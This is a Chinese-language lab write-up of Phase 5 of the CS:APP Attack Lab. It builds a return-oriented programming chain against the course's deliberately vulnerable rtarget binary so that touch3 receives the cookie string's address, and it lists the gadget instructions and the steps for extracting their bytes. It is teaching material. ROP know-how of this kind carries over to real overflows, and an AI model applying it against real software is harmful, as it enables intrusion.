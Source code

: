 本题类似 Phase3，我们需要讲一个字符数组的起始地址作为 `%rdi` 传参到 `touch3` 函数。

先把 Cookie 转码：`31 31 61 36 37 36 31 30`

根据在 Phase4 中所述方法，首先将全文替换为字节码，以函数截断：

```bash
# Bash
objdump -d rtarget > rtarget.s
cp rtarget.s rtarget.s2
```

然后，在 VS Code 中执行正则替换：

-   `.+:\t(([0-9a-f]{2} )+).+` 替换为 `$1`
-   `(([0-9a-f]{2} )+)\n` 替换为 `$1`

然后对照表格，查找我们所需要的字节码。

大致解题思路如下：

1. 填充 24 个字节导致溢出，开始利用 ROP
2. 将 `%rsp` 的值压入某寄存器，如 `%rdi` 中
3. 将某寄存器如 `%rax` 使用 `popq` 改写为立即数 Offset，其中 Offset 为初始栈顶指针 `%rsp` 到我们溢出的 Cookie 字符数组的地址的偏移量
4. 利用 `leaq` 计算 Offset + 初始栈顶指针，得到 Cookie 字符数组地址，传给 `%rdi`
5. 跳转到 touch3 函数

对照表格和拥有的 farm，编写代码 `p5.s`：

```asm
movq %rsp,%rax
ret
movq %rax,%rdi
ret
popq %rax
nop
ret
mov %eax,%ecx
nop
ret
mov %ecx,%edx
testb %al,%al
ret
mov %edx,%esi
and %dl,%dl
ret
leaq (%rdi, %rsi, 1),%rax
movq %rax,%rdi
ret
```

（有一些无效代码，这些代码是对照最终答案的字节码调整添加的）

运行：

```bash
gcc -c p5.s && objdump -d p5.o > p5.byte
```

